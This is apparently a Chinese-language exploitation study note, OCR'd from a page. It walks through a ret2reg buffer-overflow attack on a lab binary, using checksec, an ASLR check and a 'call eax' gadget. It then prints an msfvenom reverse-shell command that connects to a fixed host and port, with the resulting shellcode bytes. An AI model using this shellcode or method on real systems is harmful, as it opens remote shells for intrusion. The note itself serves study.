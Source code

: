 C也走到了EAX，找保护措施！那么只需要找到eax值，即可直接跳到shellcode！


checksec
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
RELRO 是一种用于加强对 binary 数据段的保护的技术。
参考：https://lantern.cool/note-pwn-linux-protect/

查看ASLR设置：
cat /proc/sys/kernel/randomize_va_space
2
或者：
sysctl -a --pattern randomize
kernel.randomize_va_space = 2

0 = 关闭
1 = 半随机。共享库、栈、mmap() 以及 VDSO 将被随机化。（留坑，PIE会影响heap的随机化。。）
2 = 全随机。除了1中所述，还有heap。
说明存在随机化！ASLR功能的程序使用ret2reg（返回寄存器）指令来利用缓冲区溢出
参考大佬：
https://www.securitylab.ru/analytics/405868.php

gdb-peda$ jmpcall eax
0x8048563 : call eax

或者：asmsearch "jmp eax"
asmsearch "call eax"

EAX 地址0x8048563

目前知道了JMP值：0x8048563
偏移量：168
接下来创建shellcode写个脚本就直接拿下！


接下来创建后门：避免使用空字符和换行符
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.211.55.19 LPORT=6666 -f python -b "\x00\x0a\x0b"

payload：
-p 载荷类型
LHOST 本机地址
LPORT
-b 坏字符
-f 编译的语言
\x00 == 0x00 ASCII控制字符表中对应 NULL (空字符)
\x0a == 0X0a ASCII控制字符表中对应 LF （换行键）
\x0b == 0x0b ASCII控制字符表中对应 VT (垂直定位符号)

获得：
buf =  b""
buf += b"\xdb\xda\xd9\x74\x24\xf4\xbb\x99\x95\x96\x1f\x58\x33"
buf += b"\xc9\xb1\x12\x31\x58\x17\x83\xe8\xfc\x03\xc1\x86\x74"
buf += b"\xea\xc0\x73\x8f\xf6\x71\xc7\x23\x93\x77\x4e\x22\xd3"
buf += b"\x11\x9d\x25\x87\x84\xad\x19\x65\xb6\x87\x1c\x8c\xde"
buf += b"\x1d\x0c\x59\x0d\x4a\xb0\xa6\x2b\x80\x3d\x47\xfb\xf2"
buf += b"\x6d\xd9\xa8\x49\x8e\x50\xaf\x63\x11\x30\x47\x12\x3d"
buf += b"\xc6\xff\x82\x6e\x07\x9d\x3b\xf8\xb4\x33\xef\x73\xdb"
buf += b"\x03\x04\x49\x9c"
